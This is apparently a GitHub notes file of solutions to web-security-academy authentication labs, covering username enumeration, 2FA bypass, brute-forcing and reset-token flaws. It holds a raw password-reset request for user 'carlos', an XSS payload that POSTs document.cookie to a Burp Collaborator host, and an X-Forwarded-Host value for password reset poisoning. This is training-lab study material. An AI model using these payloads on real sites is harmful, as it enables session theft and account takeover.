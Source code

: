# Authentication Vulnerabilities 

### Username enumeration via different responses

- Find valid username first

- Find valid password to valid username

- Bruteforce login using Burp or Script

### 2FA simple bypass

- When reach here https://0ac8003d04ed3772c09a2bea00f50071.web-security-academy.net/login2. just change URL to home page

### Password reset broken logic

POST /forgot-password?temp-forgot-password-token=o7PFBNNrTVxwkluRaPXuDzyhvEyjvc9g HTTP/1.1
Host: 0ac2008b042ee79cc1bb70b200870054.web-security-academy.net
Cookie: session=zNtvUch6LTfURMfAkcF6uVj7a5FLrF7v
Content-Length: 113
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0ac2008b042ee79cc1bb70b200870054.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ac2008b042ee79cc1bb70b200870054.web-security-academy.net/forgot-password?temp-forgot-password-token=o7PFBNNrTVxwkluRaPXuDzyhvEyjvc9g
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

temp-forgot-password-token=o7PFBNNrTVxwkluRaPXuDzyhvEyjvc9g&username=carlos&new-password-1=asd&new-password-2=asd

### Username enumeration via subtly different responses

- Similar to previous lab

- Valid username error message: "Invalid username or password"

- Invalid username error message: "Invalid username or password."

### Username enumeration via response timing

- Similar to previous lab

- Valid usernames have longer response times

- Spam filter bypass via `X-Forwarded-For`

### Brute-forcing a stay-logged-in cookie

- Base64 Decode Cookie

- Obtain username:hash

- Crack hash on crackstation to verify password and find out the type of hash that it is 

- Bruteforce cookie using Burp or Script

### Offline password cracking

```
fetch('https://h6o6bamm5o7blieiewq2uyzvfmlc91.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body: document.cookie});
```

- After XSS payload injected, system will auto trigger it

- If system does not auto trigger the exploit, then use iframe or redirect to deliver payload

### Password reset poisoning via middleware

`X-Forwarded-Host: 95cng7cq7a796w2ot8ixgiaxyo4es3.burpcollaborator.net`

- URL to which password reset link is generated upon can be dependent on `X-Forwarded-Host` header

### 2FA broken logic

- Bruteforce cookie using Burp or Script

